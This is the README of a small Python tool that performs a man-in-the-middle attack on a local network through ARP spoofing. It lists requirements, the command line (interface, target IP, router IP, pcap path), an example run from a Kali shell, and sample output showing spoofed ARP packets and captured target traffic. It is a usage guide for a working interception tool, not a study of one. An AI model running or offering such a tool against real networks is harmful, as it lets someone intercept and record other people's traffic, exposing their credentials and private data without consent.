 # MITM-using-ArpSpoofing
Man in the middle attack using Arp Spoofing.

## Requirements
* Linux OS
* Python 3.7 
```
pip3 install -r requirements.txt 
```

## Getting Started
```
Gil@kali:/root/Desktop$ python MITM.py <interface> <TargetIP> <RouterIP> <pcap file path>
```
for Example:
```
Gil@kali:/root/Desktop$ python MITM.py eth0 192.168.1.52 192.168.1.100 /root/Desktop/Gil
```
output:
```
The pcap file was created in the path : /root/Desktop/Gil

Arp Spoofing is Running... 156 packets of ARP have been sent So far.
---------------------------------------------------------------------------

Sniffer is Running... 768 packets From the Target have been collected so far.
-----------------------------------------------------------------------------
```
## Authors
Gil Matitiyahu
